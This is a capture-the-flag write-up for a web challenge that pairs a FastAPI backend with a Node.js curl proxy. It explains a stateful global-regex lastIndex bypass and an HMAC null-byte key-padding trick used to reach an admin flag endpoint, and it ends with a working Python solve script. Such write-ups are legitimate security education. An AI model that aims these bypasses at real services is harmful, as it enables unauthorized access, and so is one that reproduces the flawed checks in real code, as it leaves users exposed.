

## T2mu's Swager  



This challenge has two components: a FastAPI server running on port `8000` and a Node.js server running on port `3000`.  

```yaml
services:
  app.com:
    container_name: app.com
    build:
      context: ./deploy/app
    ports:
      - "3000:3000"
    depends_on:
      - api.app.com
  api.app.com:
    container_name: api.app.com
    build:
      context: ./deploy/api-server
    ports:
      - "8000:8000"
```

The FastAPI server has an `/api/v1/admin/flag` endpoint that returns the flag, but it has security checks `hmac_validator()` and `check_auth()`.  

`hmac_validator()` requires a HMAC signature in the `X-Authorization` request header and the Base64-encoded signing key in an `auth` cookie, and blocks access if the key is `admin` or if an invalid signature is supplied.  

`check_auth()` simply blocks access if the `auth` cookie is `guest` instead.  

```python
async def hmac_validator(req: Request):
    signature = req.headers.get("X-Authorization")
    if not signature:
        raise HTTPException(status_code=401, detail="Missing X-Authorization header")
    
    path = req.url.path

    if not req.cookies.get("auth"):
        raise HTTPException(status_code=401, detail="Missing Auth cookie")
    
    SECRET_KEY = b64decode(req.cookies.get("auth").encode()).decode()

    if (SECRET_KEY == 'admin'):
        raise HTTPException(status_code=403, detail="Admin privileges are not allowed")
    
    if not verify_hmac(path, signature):
        raise HTTPException(status_code=403, detail="Invalid HMAC signature")


async def check_auth(req: Request):
    if b64decode(req.cookies.get("auth").encode()).decode() == 'guest':
        raise HTTPException(status_code=403, detail="Do not have permission")

@app.get("/api/v1/admin/flag", response_model=Dict[str, str], dependencies=[Depends(hmac_validator), Depends(check_auth)])
async def flag():
    with open('/flag') as f:
        try: 
            FLAG = f.read().strip()
        except:
            FLAG = 'DH{test}'
    response = {"message": FLAG}
    return response
```

The Node.js server in `app.js` has a `/test` endpoint that allows us to send CURL requests to the FastAPI server, albeit with some restrictions.  

```js
const METHODS = ['GET', 'POST', 'DELETE', 'PUT']

...

app.post("/test", async (req, res) => {
    const { body, headers } = req;

    let METHOD = 'GET'
    let AUTH = ''
    let PATH = '/'
    let URL = "http://api.app.com:8000/api/v1"
    let HMAC = ''

    if (body.method){
        for (let i =0; i < METHODS.length; i++){
            if (METHODS[i] === body.method.toUpperCase()) {
                console.log(body.method.toUpperCase());
                METHOD = body.method.toUpperCase();
                break;
            }
        }

    } else{
        return res.status(400).send('Set Method.');
    }
    
    ...
    
    if (METHOD === 'POST' || METHOD === 'PUT') {
        if (!req.body.title || !req.body.content){
            return res.status(400).send('At least one parameter is missing.')
        } else {
            const jsonData = JSON.stringify({
                title: req.body.title,
                content: req.body.content,
            });
            curlArgs.push("-H", "Content-Type: application/json");
            curlArgs.push("-d", jsonData);
        }
    }

    const curl = spawn("curl", curlArgs);

    let stdout = "";
    let stderr = "";

    curl.stdout.on("data", (data) => {
        stdout += data.toString();
    });

    curl.stderr.on("data", (data) => {
        stderr += data.toString();
    });

    curl.on("close", (code) => {
        if (code === 0) {
            return res.send(stdout);
        } else {
            return res.status(500).json({ error: stderr || "Unknown error occurred" });
        }
    });
});
```

The first restriction is the regex check on the path that we want to CURL.  

The request URI format is `http://api.app.com:8000/api/v1/<b64-decoded auth cookie>/<path>`. `/test` restricts the `auth` cookie value to strictly either `admin` or `guest`, but the regex filter blocks characters `adminflg` indiscriminately, so we normally can't make requests using either `auth` value.  

An important thing to note is that the server only checks if `auth` starts with `"admin"`, which means values like `admin1` will also cause `auth` to be set to `admin`. Keep this in mind for later.  

```js
const REGEX = /a|d|m|i|n|f|l|g/g;

...

app.post("/test", async (req, res) => {
    const { body, headers } = req;

    ...

    let AUTH = ''
    let PATH = '/'
    let URL = "http://api.app.com:8000/api/v1"

    ...

    if (!req.cookies.auth) return res.status(401).send('Auth first.');

    else{
        if(Buffer.from(req.cookies.auth, 'base64').toString('utf8').startsWith('admin')) AUTH = 'admin'
        else AUTH = 'guest';
    }

    URL = URL + '/' + AUTH;

    if (REGEX.test(AUTH + req.body.path)) {
        return res.status(400).send('Invalid Character.');
    }


    if(req.body.path && req.body.path !== ""){

        if (body.path.startsWith("/")) {
            URL = URL + body.path; 
            PATH = '/api/v1/' + AUTH + body.path;
        } else{
            URL = URL + "/" + body.path; 
            PATH = '/api/v1/' + AUTH + '/' + body.path;
        }
    }
```

However, if we look closely, we can notice a bug that will allow us to bypass this restriction.  

The regex is defined as `/a|d|m|i|n|f|l|g/g`. The `g` flag makes the regex stateful, which means `lastIndex` (where the next match should start) persists across regex tests.  

This means we can offset `lastIndex` with enough junk characters, then cause it to match on an index that exceeds our actual `path` length, thus bypassing the regex check entirely.  

Since `guest` matches the regex, we need to make two requests. The first will offset `lastIndex` by `1`, allowing the `g` to be skipped in the second request. The second request will then offset `lastIndex` to exceed our `path` length.  

```js
REGEX.test('guest/..........a')     // lastIndex: 1
REGEX.test('guest/..........a')     // lastIndex: 17

REGEX.test('/flag')                 // skip entire string
```

The next restriction is that the server adds its own `X-Authorization` header, before adding our own user-supplied headers.  

The server-added signature signs our `path` with our actual `auth` cookie. This is bad, because `hmac_validator()` from earlier explicitly blocks `admin` as the `auth`.  

We also can't perform path traversal by setting `auth` to `admin1` and `path` to `../admin/flag`, as `hmac_validator` signs the final normalised path, which will cause our signature to fail the HMAC check.  

```js
app.post("/test", async (req, res) => {
    ...

    if(req.body.path && req.body.path !== ""){

        if (body.path.startsWith("/")) {
            URL = URL + body.path; 
            PATH = '/api/v1/' + AUTH + body.path;
        } else{
            URL = URL + "/" + body.path; 
            PATH = '/api/v1/' + AUTH + '/' + body.path;
        }
    }
    
    const curlArgs = ["-X", body.method.toUpperCase(), URL];
    
    try {
        const data = {secret_key: Buffer.from(req.cookies.auth, 'base64').toString('utf8'), path: PATH}
        const response = await axios.post(`http://api.app.com:8000/api/v1/admin/getSignature`,data);
        HMAC = response.data.message
        curlArgs.push("-H", `X-Authorization: ${HMAC}`);

    } catch (e) {
        console.log(`Axios Error: ${e}`);
        return res.status(500).send('Error fetching data');
    }
    
    for (const [key, value] of Object.entries(headers)) {
        if (!["host","connection", "content-type", "content-length"].includes(key.toLowerCase())) {
            curlArgs.push("-H", `${key}: ${value}`);
        }
    } 

    ...
```

To bypass this, we can exploit the way HMAC itself works.  

HMAC keys are 64-byte aligned, and will pad the key with null bytes if it's shorter than 64 bytes.  

If we set `auth` to `admin\x00`, HMAC will pad the key and produce the `admin` key's signature, but the `auth` cookie isn't detected as `admin`, allowing us to finally bypass the checks and request `/api/v1/admin/flag`.  

Below is my full solve script for this challenge.  

```python
import requests
import base64

url = 'http://host3.dreamhack.games:23449/'
s = requests.Session()

# regex bypass
for _ in range(2):
    res = s.post(f'{url}/test', data={
        'method': 'GET',
        'path': '.' * 100 + 'a'
    }, cookies={
        'auth': base64.b64encode(b'guest').decode()
    })

# auth bypass
res = s.post(f'{url}/test', data={
    'method': 'GET',
    'path': '/flag'
}, cookies={
    'auth': base64.b64encode(b'admin\x00').decode()
})

flag = res.json()['message']
print("Flag:", flag)
```

Flag: `DH{18e6bb0f17:xixmNDyOtVzV5TRWTqLeLw==}`